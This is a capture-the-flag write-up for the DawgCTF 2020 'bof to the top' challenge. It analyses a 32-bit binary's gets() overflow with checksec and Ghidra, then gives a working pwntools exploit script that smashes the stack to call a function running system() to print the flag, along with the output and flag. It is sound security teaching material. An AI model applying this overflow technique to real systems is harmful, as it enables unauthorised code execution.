


# DawgCTF 2020

## bof to the top

> 100
>
> Anything it takes to climb the ladder of success
>
> `nc ctf.umbccd.io 4000`
>
> Author: trashcanna>
> 
> [bof](bof)

Tags: _pwn_ _bof_ _gets_


### Analysis

#### Checksec

```
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000)
```

Can exploit GOT, overflow the stack, easy ROP as a start.


#### Decompile with Ghidra

There are two functions of interest: `get_audition_info` and `audition`.

Main just calls:



`get_audition_info` has a `gets` vulnerability.

There is no call to:



`iVar1` is set to the address following the call to `__x86.get_pc_thunk.ax` (`0x0804918e`):

```
08049189 e8 ff 00 00 00          CALL       __x86.get_pc_thunk.ax
0804918e 05 72 2e 00 00          ADD        EAX,0x2e72
```

The argument to `system`: `iVar1 + 0xe7a` (`0x804918e + 0xe7a = 0x804a008`) points to the string `/bin/cat flag.txt`:

```
0804a008 2f 62 69        ds         "/bin/cat flag.txt"
         6e 2f 63 
         61 74 20 
```

Clearly this is the function we want to call, however, two parameters are required, and only the correct values will call `system`.


### Exploit

#### Attack Plan

1. Overflow buffer, smash stack, and call `audition` with parameters `0x4b0` and `0x16e`
2. Get the flag.


#### Overflow buffer, smash stack, and call `audition` with parameters `0x4b0` and `0x16e`

From the disassembly, `local_70` is `0x6c` bytes above the saved base pointer and the return address:

```
0804920c 8d 45 94        LEA        EAX=>local_70,[EBP + -0x6c]
```

Code:

```
from pwn import *

#p = process('./bof')
p = remote('ctf.umbccd.io', 4000)

binary = ELF('bof')

p.recvuntil('name?\n')
p.sendline("foo")
p.recvuntil('singing?\n')

payload  = 0x6c * b'A'
payload += 4 * b'B'
payload += p32(binary.symbols['audition'])
payload += p32(0x0)
payload += p32(0x4b0)
payload += p32(0x16e)

p.sendline(payload)
p.stream()
```

The payload sends `0x6c` `A`s to get to the saved base pointer, then 4 `B`s to overwrite that, then the address to `audition`, with where we'd like to return to after `audition`, but we do not care, lastly the two arguments to `audition`.

Output:

```
[+] Opening connection to ctf.umbccd.io on port 4000: Done
[*] '/pwd/datajerk/dawgctf2020/bof-to-the-top/bof'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000)
DawgCTF{wh@t_teAm?}
```

#### Flag

```
DawgCTF{wh@t_teAm?}
```
